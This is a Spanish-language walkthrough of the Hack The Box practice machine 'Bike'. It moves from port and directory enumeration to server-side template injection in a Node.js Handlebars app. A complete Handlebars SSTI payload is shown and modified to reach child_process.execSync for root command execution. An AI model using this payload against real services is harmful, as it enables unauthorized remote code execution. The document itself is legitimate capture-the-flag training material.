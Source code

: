 1. **Escaneamos todos los puertos (0-65535) con los scripts predeterminados y averiguando los servicios que corren. El `-v` es para que me vaya diciendo a tiempo real lo que va encontrando.**
```bash
nmap -sVC -p- -v [target IP]
```
--> 22/tcp - open - ssh - OpenSSH 8.2p1 Ubuntu 4ubuntu0.4
--> 80/tcp - open - http - Node.js (Express middleware)

2. **Entramos desde el navegador a la IP y añadimos el dominio `bike.htb` junto a su IP a nuestro archivo `/etc/hosts`.**

3. **Usamos la herramienta [[Nikto]] para escanear posibles vulnerabilidades web.**
```bash
nikto -h http://bike.htb
```
Nos devuelve información varia. Nos dice que ha encontrado 19 errores y 5 items reportados en el host remoto.
--> Retrieved x-powered-by header: Express
--> Allowed HTTP Methods: GET, HEAD, POST

4. **Entramos en el sitio web y comprobamos que usa la tecnología Express como web framework y web server con la extensión [[Wappalyzer]]. También vemos que usa el lenguaje de programación Node.js**

5. **Vamos a enumerar directorios y subdirectorios con Gobuster.**
```bash
gobuster dir -u http://bike.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
--> No encontramos nada importante

6. **Volvemos a la web y vemos que hay una línea donde podemos escribir nuestro email. Ponemos uno de ejemplo, como ejemplo@gmail.com y vemos que abajo del input nos sale "We will contact you at: ejemplo@gmail.com".**

7. **Como usa Node.js, sabemos que trabaja con plantillas, por lo que podemos explotar la vulnerabilidad SSTI (Server-Side Template Injection).**
Para ello, podemos recurrir a la página de HackTricks, donde hay manuales sobre un montón de explotaciones de vulnerabilidades.
Buscamos en Google SSTI payloads y entramos en la página de HackTricks.
Encontramos algunos payloads como `{{7*7}}`. Lo introducimos en la línea donde introducimos el email y nos redirige a una página de error donde aparecen rutas importantes.

Una de esas rutas importantes es `/root/Backend/node_modules/handlebars/...`, por lo que vemos que usa el motor de plantillas `Handlebars`. Volvemos a la misma página de los payloads para SSTI de HackTricks y buscamos `Handlebars`, donde encontraremos payloads específicos para eso:
```java
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

8. **Abrimos BurpSuite, recargamos la página para que se vuelva a enviar el `{{7*7}}`, volvemos a BurpSuite, nos vamos a Proxy, dentro de Proxy a HTTP history, entramos en la petición y la mandamos al Repeater**


9. **Ahora vamos a encodear el payload a URL. Para ello, vamos a la pestaña Decoder dentro de BurpSuite. Pegamos el payload y le damos a Encode as URL. Obtenemos el payload encodeado y lo copiamos.**
Esto sirve para que el servidor interprete todos los caracteres sin problemas.

10. **Volvemos al Repeater y sustituimos el valor de `email` por el payload encodeado y le damos a Send.**
--> Volvemos a obtener un error, pero esta vez nos dice `require is not defined`. Comprobamos que `require` es parte de nuestro payload, por lo que el servidor lo ha interpretado y ejecutado.

11. **Para que no nos de error, vamos a cambiar el payload. Volvemos al Decoder y cambiamos la linea de `{{this.push "return require('child_process').exec('whoami');"}}` por `{{this.push "return process"}}`. Lo encodeamos como URL y lo copiamos.**

12. **Volvemos al Repeater, olvemos a sustituir el contenido de `email` por el nuevo payload y lo enviamos.**
--> Ya no obtenemos ningún error, sino que obtenemos la respuesta, por lo que nos damos cuenta que podemos hacer las solicitudes que queramos con el objeto `process`.

13. **Vamos a la documentación oficial de Node.js para buscar qué podemos pedir con el objeto `process` y encontramos que podemos obtener el `process.mainModule`, que sustituye a `require.main`, por lo que podemos ejecutar ya el payload original que obtuvimos de la página HackTricks (modificando algunas cosas)**
--> Cambiamos en el Decoder de nuevo nuestro payload y la línea `{{this.push "return process"}}`, la cambiamos por `{{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}`. 
Lo encodeamos en URL, lo enviamos y obtenemos la respuesta `root`, por lo que se ha ejecutado el comando `whoami`.

A partir de aquí, ya podemos mandar una reverse-shell o seguir ejecutando código como lo hemos estado haciendo hasta ahora, sustituyendo `whoami` por los comandos que queramos ejecutar.
En el directorio `/root` se encuentra la flag.
--> **MACHINE PWNED!**

